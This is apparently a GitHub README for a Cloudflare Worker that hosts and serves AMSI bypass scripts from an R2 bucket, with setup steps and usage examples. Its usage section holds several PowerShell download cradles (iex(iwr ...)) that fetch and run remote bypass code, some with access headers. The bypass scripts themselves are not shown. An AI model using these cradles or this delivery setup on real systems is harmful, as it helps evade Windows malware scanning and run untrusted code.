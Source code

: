 # AMSI-R2

## Summary

Easy access to your amsi bypass script with Cloudflare workers and R2 bucket

## Description

Cloudflare worker function that selects a AMSI bypass file from a folder in a Cloudflare R2 bucket. The idea came from [Flangvik](https://twitter.com/Flangvik) [AMSI.fail](https://github.com/Flangvik/AMSI.fail).

## Features

- Using Cloudflare Workers and R2 feature (free tier is enough)
- Protect your endpoint behind CF zero-trust (free for 1-50 users)
- Deploy with Github actions

## Things you need

- Cloudflare account (you will need your account id)
- Cloudflare API token. Doc [here](https://developers.cloudflare.com/fundamentals/api/get-started/create-token/)
- Create a R2 bucket
- In your new R2 bucket, create a folder which will contain your AMSI bypass scripts. And obviously... add your scripts in that folder.
- Clone or fork the project
- Modify the custom domain `wrangler.toml` file to fit your needs (only the route section should be modified in this file!)
- Setup [Github secrets repository](https://docs.github.com/en/actions/learn-github-actions/variables#creating-configuration-variables-for-a-repository)
- A [domain setup in CF](https://developers.cloudflare.com/fundamentals/get-started/setup/add-site/) to use the [custom domain feature](https://developers.cloudflare.com/workers/configuration/routing/custom-domains/) in the `wrangler.toml` file

note: to use without custom domain(not recommended), you will need to modify 2 things:

- remove the 3rd sed command in `.github/workflows/deploy.yml`
- remove the route section in `wrangler.toml`

## Installation

```bash
git clone https://github.com/service-yack/Some-R2-Explorer

```

## How to use

```bash
# ex: random
curl https://subdomain.yourdomain.com/<folder-name>
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>');
# specific amsi bypass script
curl https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>');
###
curl https://amsi-r2.example.com/amsibypass
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass');
#
curl https://amsi-r2.example.com/amsibypass?payload=2
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2');
```

## How to use with CF zero-trust

- Generate [service auth token](https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/).
- Add worker domain in CF zero-trust [application section](https://developers.cloudflare.com/cloudflare-one/applications/configure-apps/self-hosted-apps/). During the creation, setup a rule that allows your service token.

```bash
# curl command to access behind the zero-trust
curl https://amsi-r2.example.com/amsibypass -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
#
curl https://amsi-r2.example.com/amsibypass?payload=2 -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
```

## Todo

Integrate the logic/obfuscation of [AMSI.fail](https://github.com/Flangvik/AMSI.fail)

## More ?

You want something with a visual interface ? Take a look at [Some-R2-Explorer](https://github.com/service-yack/Some-R2-Explorer)

## Credits

- [Flangvik](https://twitter.com/Flangvik)
- [somecanadian](https://github.com/som3canadian)
